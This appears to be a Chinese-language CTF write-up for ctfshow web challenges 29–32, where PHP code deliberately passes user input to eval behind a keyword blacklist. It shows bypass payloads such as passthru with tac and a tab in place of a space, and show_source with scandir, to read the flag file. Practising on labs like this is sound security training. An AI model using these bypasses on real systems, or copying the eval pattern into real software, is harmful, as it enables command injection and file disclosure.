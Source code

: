 # Web 29
![[Pasted image 20240821155539.png]]
能执行`$_GET['c']`中的语句，但是这个语句中不能存在`flag`这个单词。
我们先看看有啥：
![[Pasted image 20240821155629.png]]
最终还是要让我们输出`flag.php`：
![[Pasted image 20240821160130.png]]
# Web 30
![[Pasted image 20240821161009.png]]
![[Pasted image 20240821161455.png]]
# Web 31
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 00:49:10  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){  
        eval($c);  
    }  
}else{
	highlight_file(__FILE__);  
}
```


用`/?c=passthru("tac%09fl*")`中的`%09`也就是`TAB`键代替空格`%20`
![[Pasted image 20240822091817.png]]
或者
`?c=show_source(scandir(getcwd())[2]);`
![[Pasted image 20240822092155.png]]
# Web 32
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 00:56:31  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
```